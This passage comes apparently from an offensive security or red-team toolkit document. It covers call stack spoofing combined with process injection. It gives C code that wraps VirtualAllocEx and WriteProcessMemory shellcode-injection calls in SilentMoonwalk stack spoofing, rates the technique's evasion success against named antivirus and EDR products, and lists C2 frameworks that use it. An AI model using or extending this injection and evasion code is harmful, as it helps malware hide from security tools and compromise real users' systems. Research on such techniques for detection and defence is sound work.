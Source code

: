 **Stack Spoofing + Injection** (NOCTIS-T003):
```c
// Use PoolParty for injection, spoof stack during critical calls
POOLPARTY_CONTEXT poolCtx;
SPOOF_CONTEXT spoofCtx;

// Spoof VirtualAllocEx call
SilentMoonwalk_CallWithSpoofedStack(
    &spoofCtx,
    VirtualAllocEx,
    targetProcess, NULL, shellcodeSize, MEM_COMMIT, PAGE_READWRITE
);

// Spoof WriteProcessMemory call
SilentMoonwalk_CallWithSpoofedStack(
    &spoofCtx,
    WriteProcessMemory,
    targetProcess, remoteBuffer, shellcode, shellcodeSize, NULL
);
```

---

## Target AV/EDR Effectiveness

| Security Product | Static Cloning | SilentMoonwalk (ROP) |
|-----------------|----------------|---------------------|
| Windows Defender | High | High |
| CrowdStrike Falcon | Medium | **High** |
| Palo Alto Cortex XDR | Medium | High |
| Carbon Black | High | High |
| SentinelOne | Low-Medium | **High** |

**Note**: SilentMoonwalk achieves 85-90% effectiveness vs 75-80% for static cloning.

---

## Real-World Examples

### Malware Using Call Stack Spoofing

- **Cobalt Strike 4.9+**: Malleable C2 profile supports stack spoofing
- **BRC4 C2**: Integrated SilentMoonwalk-style spoofing
- **Sliver**: Community modules for call stack manipulation
- **APT Groups**: Advanced persistent threats documented using stack spoofing

### Research Projects

- **SilentMoonwalk** (klezVirus): ROP-based dynamic spoofing
- **LoudSunRun** (Dylan Tran): Derived from SilentMoonwalk + Vulcan Raven
- **Ekko/Zilean** (Cracked5pider): Sleep obfuscation with stack considerations
- **MaldevAcademy**: Educational stack cloning implementation

---